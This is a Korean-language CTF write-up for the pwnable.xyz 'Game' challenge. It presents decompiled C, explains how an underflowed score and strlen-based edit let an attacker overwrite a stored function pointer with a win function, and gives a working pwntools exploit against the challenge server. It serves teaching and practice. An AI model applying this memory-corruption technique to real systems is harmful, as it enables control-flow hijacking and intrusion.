```yaml
---
title: "[pwnable.xyz]Game"
date: 2020-1-26
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


메인이다. 메뉴는 총 4개가 있다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  signed int v4; // eax

  setup();
  v3 = "Shell we play a game?";
  puts("Shell we play a game?");
  init_game();
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu(v3, argv);
      v3 = "> ";
      printf("> ");
      v4 = read_int32();
      if ( v4 != 1 )
        break;
      (*(cur + 3))();
    }
    if ( v4 > 1 )
    {
      if ( v4 == 2 )
      {
        save_game();
      }
      else
      {
        if ( v4 != 3 )
          goto LABEL_13;
        edit_name();
      }
    }
    else
    {
      if ( !v4 )
        exit(1);
LABEL_13:
      v3 = "Invalid";
      puts("Invalid");
    }
  }
}
```

우선 `init_game` 함수를 보면 *cur에 name입력받은 16바이트 저장한다. 그리고 *(cur+3)에 play_game함수를 저장한다.

```c
char *init_game()
{
  char *result; // rax

  saves[0] = malloc(32uLL);
  cur = find_last_save();
  printf("Name: ");
  read(0, cur, 16uLL);
  result = cur;
  *(cur + 3) = play_game;
  return result;
}
```

이 함수는 별거 없다.

```c
unsigned __int64 play_game()
{
  __int16 v0; // dx
  __int16 v1; // dx
  __int16 v2; // dx
  __int16 v3; // dx
  int fd; // [rsp+Ch] [rbp-124h]
  int v6; // [rsp+10h] [rbp-120h]
  unsigned int buf; // [rsp+14h] [rbp-11Ch]
  unsigned int v8; // [rsp+18h] [rbp-118h]
  unsigned __int8 v9; // [rsp+1Ch] [rbp-114h]
  char s; // [rsp+20h] [rbp-110h]
  unsigned __int64 v11; // [rsp+128h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  read(fd, &buf, 0xCuLL);
  close(fd);
  v9 &= 3u;
  memset(&s, 0, 0x100uLL);
  snprintf(&s, 0x100uLL, "%u %c %u = ", buf, ops[v9], v8);
  printf("%s", &s);
  v6 = read_int32();
  if ( v9 == 1 )
  {
    if ( buf - v8 == v6 )
      v1 = *(cur + 8) + 1;
    else
      v1 = *(cur + 8) - 1;
    *(cur + 8) = v1;
  }
  else if ( v9 > 1 )
  {
    if ( v9 == 2 )
    {
      if ( buf / v8 == v6 )
        v2 = *(cur + 8) + 1;
      else
        v2 = *(cur + 8) - 1;
      *(cur + 8) = v2;
    }
    else if ( v9 == 3 )
    {
      if ( v8 * buf == v6 )
        v3 = *(cur + 8) + 1;
      else
        v3 = *(cur + 8) - 1;
      *(cur + 8) = v3;
    }
  }
  else if ( !v9 )
  {
    if ( v8 + buf == v6 )
      v0 = *(cur + 8) + 1;
    else
      v0 = *(cur + 8) - 1;
    *(cur + 8) = v0;
  }
  return __readfsqword(0x28u) ^ v11;
}
```

`save_game ` 함수는 청크를 복사해준다.

```c
int save_game()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rax
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 1; i <= 4; ++i )
  {
    if ( !saves[i] )
    {
      saves[i] = malloc(32uLL);
      v0 = saves[i];
      v1 = *(cur + 1);
      *v0 = *cur;
      v0[1] = v1;
      *(saves[i] + 16) = *(cur + 8);
      *(saves[i] + 24) = play_game;
      v2 = i;
      v3 = saves[v2];
      cur = saves[v2];
      return v3;
    }
  }
  LODWORD(v3) = puts("Not enough space.");
  return v3;
}
```

edit_name() 함수에서는 name만큼 값을 쓸 수 있다.

```c
ssize_t edit_name()
{
  size_t v0; // rax

  v0 = strlen(cur);
  return read(0, cur, v0);
}
```

구조체는 name | score | play_game 이런식으로 되있을 거다.

익스할 때 처음에 일단 name에서 16개를 꽉 채워서 보내는 이유는 size와 합쳐져서 널 바이트를 없애 3번 메뉴에서 더 많이 받을 수 있다.

우선 1번 메뉴 play를 해서 지면 score이 -1이 된걸 볼 수 있는데 디버깅해보면 값은 0xffff가 들어간다. 이제 save로 복사하면 새로운 청크가 생기면서 값들이 복사된다. 여기서0xffffffffffffffff가 들어간다. 

그래서 name(16) + 0xffffffffffffffff(8) + 0x0400aca(3) 이렇게 된다. 그래서 우리는 총 27바이트를 입력할 수 있다. 이제 0x0400aca를 덮을 수 있다. 3바이트를 덮을 수 있으니까 0x4009d6주소인 win으로 덮으면 1번 메뉴 실행할 때마다 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30009)

p.sendafter(':','A'*16) # name
p.sendlineafter('>','1') # play
p.sendafter('=','1') # anything
p.sendlineafter('>','2') # save
p.sendlineafter('>','3') # read(0,cur,sizeof(cur))
payload = 'A'*24 + p16(0x9d6) # size -> 2byte & 0x4009d6 -> win();
p.send(payload)

p.interactive()
```

